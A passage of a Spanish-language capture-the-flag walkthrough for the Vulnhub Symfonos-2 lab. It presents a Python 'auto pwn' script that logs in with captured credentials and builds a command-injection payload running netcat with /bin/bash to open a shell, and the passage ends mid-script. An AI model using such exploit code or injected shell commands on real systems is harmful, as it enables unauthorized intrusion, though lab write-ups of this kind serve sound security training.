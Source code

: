 
## Shell - root :)

![](/assets/images/vulnhub-writeup-symfonos2/root.png)


## Auto Pwned

He creado un script en python3 que nos permite ingresar a la máquina según el usuario que elijamos. Para aclarar tenemos que tener acceso al puerto 8080 para que se pueda ejecutar correctamente.


```python
import requests,re,argparse,random,socket,threading
from urllib.parse import urlencode 

def data():
    parser = argparse.ArgumentParser(description='Auto Pwned Symfonos-2')
    parser.add_argument('-t','--target', required=True, help='Target Ip vict')
    parser.add_argument('-ul','--userLogin',required=True,help='User login')
    parser.add_argument('-p','--password',required=True,help='Password Login')
    parser.add_argument('-u','--user', required=True, help='Users (cronos,root)')
    parser.add_argument('-lp','--lport',required=True, help="Port attack")
    parser.add_argument('-lh','--lhost',required=True,help="Ip attack")
    args = parser.parse_args()
    url = args.target
    user_login=args.userLogin
    password=args.password
    user_system = args.user 
    lport = args.lport
    lhost = args.lhost 
    return url,user_login,password,user_system,lport,lhost 

def login(url,user_login,password,user_system,lport,lhost):
    session = requests.Session()
    url_login = url+"/login"
    token_data =  session.get(url_login).text
    token = re.findall(r'<meta name="csrf-token" content="(.*?)">',token_data)[0]
    # _token=GcWVbbJVnWKUO36bRZbsb0kkuxjB4IWCirREZDkc&username=aeolus&password=sergioteamo&submit=
    data_post={
        "_token":token,
        "username":user_login,
        "password":password,
        "submit":""
    }
    response = session.post(url_login,data_post)
    login_check = url + "/device-groups/"
    check = requests.get(login_check)
    if check.status_code == 200:
        print("[+]Successful login")
    else:
        print("[-]Error login")
    return session

def user_cronos(url,lport,lhost,session):
    print("[+] Starting attack on cronos")
    cmd= "'$(nc -lvnp 4442 -e /bin/bash &) #"
```